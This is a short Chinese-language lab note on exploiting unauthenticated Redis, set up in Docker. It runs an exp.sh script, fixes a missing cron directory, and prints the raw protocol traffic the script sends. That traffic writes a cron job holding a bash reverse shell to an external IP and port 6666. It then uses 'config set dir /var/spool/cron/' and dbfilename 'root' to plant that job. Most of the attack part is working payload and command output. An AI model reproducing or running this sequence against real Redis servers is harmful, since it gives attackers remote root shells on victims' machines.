 这里用docker来搭建redis的环境会遇到点小问题，执行exp.sh时它会返回找不到/var/spool/cron路径

```
root@823a5abb3710:/home# bash exp.sh 127.0.0.1 4444
OK
(error) ERR Changing directory: No such file or directory
OK
OK
OK
```

网上搜了一圈，没发现解决方法，最后发现是没有安装cron导致的，使用apt安装cron就解决了

exp.sh发送的数据

```
> 2021/07/12 08:59:52.654090  length=88 from=0 to=87
*3\r
$3\r
set\r
$1\r
1\r
$61\r



*/1 * * * * bash -i >& /dev/tcp/101.34.83.83/6666 0>&1



\r
< 2021/07/12 08:59:52.655009  length=5 from=0 to=4
+OK\r
> 2021/07/12 08:59:52.659635  length=57 from=0 to=56
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$16\r
/var/spool/cron/\r
< 2021/07/12 08:59:52.660353  length=5 from=0 to=4
+OK\r
> 2021/07/12 08:59:52.664951  length=52 from=0 to=51
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$4\r
root\r
< 2021/07/12 08:59:52.665614  length=5 from=0 to=4
+OK\r
> 2021/07/12 08:59:52.670266  length=14 from=0 to=13
*1\r
$4\r
save\r
< 2021/07/12 08:59:52.680492  length=5 from=0 to=4
+OK\r
> 2021/07/12 08:59:52.684576  length=14 from=0 to=13
*1\r
$4\r
```